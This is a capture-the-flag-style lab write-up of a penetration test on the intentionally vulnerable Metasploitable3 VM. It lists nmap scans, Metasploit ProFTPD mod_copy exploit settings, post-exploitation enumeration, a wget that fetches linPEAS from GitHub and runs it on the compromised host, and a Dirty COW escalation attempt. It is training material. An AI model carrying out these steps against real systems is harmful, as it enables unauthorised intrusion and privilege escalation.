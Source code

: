 # 🧪 Metasploitable3 Penetration Test – Full Lab Report

## 📘 Introduction

This lab simulates a real-world penetration test against the vulnerable VM **Metasploitable3** using **Kali Linux** as the attacking machine. The goal is to perform reconnaissance, exploitation, and privilege escalation, while documenting every step through screenshots.

---

## 🛠️ Lab Setup

| Machine       | OS                    | IP Address       |
|---------------|------------------------|------------------|
| Attacker      | Kali Linux             | 172.28.128.100   |
| Target        | Metasploitable3 Ubuntu | 172.28.128.3     |

---

## 1️⃣ Scanning the Network

We use `nmap` to detect live hosts in our subnet.

```bash
nmap -sn 172.28.128.0/24
```

![Scanning the Network](screenshots/1.Scanning_Our_Network.png)

---

## 2️⃣ Scanning the Target Machine

We perform a detailed scan to identify open ports and services.

```bash
nmap -sS -sV -sC -O -Pn 172.28.128.3
```

![Scanning Target Machine](screenshots/2.Scanning_Target_Machine.png)

---

## 3️⃣ Opening Metasploit

We launch the Metasploit Framework:

```bash
msfconsole
```

![Opening Metasploit Console](screenshots/3.Opening_Msfconsole.png)

---

## 4️⃣ Discovering Vulnerabilities

We search for vulnerabilities in the ProFTPD service identified earlier.

```bash
search proftpd
```

![Vulnerability Results](screenshots/4.Vulnerability_Results.png)

---

## 5️⃣ Selecting Exploit and Setting Parameters

We choose `exploit/unix/ftp/proftpd_modcopy_exec` and configure it.

```bash
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 172.28.128.3
set LHOST 172.28.128.100
set RPORT 21
```

![Setting Exploit Options](screenshots/5.Selecting_The_Exploit_And_Setting_Parameters.png)

---

## 6️⃣ Running the Exploit

We launch the exploit to gain remote code execution.

```bash
run
```

![Running the Exploit](screenshots/6.Running_The_Exploit.png)

---

## 7️⃣ Gathering Information

We enumerate the compromised machine.

```bash
whoami
id
hostname
uname -a
```

![Gathering System Info](screenshots/7.Gathering_Information.png)

---

## 8️⃣ Downloading and Executing linPEAS

We upload and execute linPEAS for local enumeration.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![Running linPEAS](screenshots/8.Downloading_And_Starting_LinPEAS.png)

---

## 9️⃣ Privilege Escalation Opportunities

We identify Dirty COW as a potential escalation path.

![linPEAS Output](screenshots/9.Looking_At_Machine_Vulnerabilities_For_Privileges_Escalation.png)

---

## 🔟 Attempted Privilege Escalation

We attempt to exploit Dirty COW, which appears to work but doesn’t yield a root shell directly.

![Privilege Escalation Attempt](screenshots/10.Exploiting_And_Updating_Root_Privileges.png)

---

## ✅ Conclusion

- ✔️ Target identified and scanned
- ✔️ Exploit executed successfully using Metasploit
- ✔️ Post-exploitation enumeration completed
- ✔️ Privilege escalation attempted using Dirty COW
- ❗ Root access not achieved, but vector validated

This lab illustrates a full cycle of a basic penetration test in a controlled environment.
